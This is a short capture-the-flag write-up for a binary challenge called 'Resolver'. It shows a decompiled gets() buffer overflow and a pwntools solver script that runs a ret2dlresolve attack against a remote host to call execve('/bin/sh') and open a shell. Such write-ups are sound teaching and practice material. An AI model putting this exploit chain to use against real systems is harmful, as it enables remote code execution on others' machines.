


# Resolver


## Source Code
```c
void vuln(void)

{
  char local_28 [32];
  
  gets(local_28);
  return;
}
```
```c
undefined8 main(void)

{
  setup();
  vuln();
  return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>


This challenge is <strong>ret2dlresolve</strong> attack which means we need to tricks the binary into resolving a function of our choice such as ```execve('/bin/sh')``` into the PLT (Procedure Linkage Table) as it was originally part of the binary.

## Solver
```py
#!/usr/bin/env python3
from pwn import *

context.log_level = 'DEBUG'

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184',10018)

rop = ROP(elf)
d = Ret2dlresolvePayload(elf, symbol='execve', args=['/bin/sh',0])
rop.raw(0x000000000040101a)
rop.gets(d.data_addr)
rop.ret2dlresolve(d)

payload = fit({32: rop.chain()})  + b'\n' + d.payload

p.sendline(payload)
p.interactive()
p.close()
```
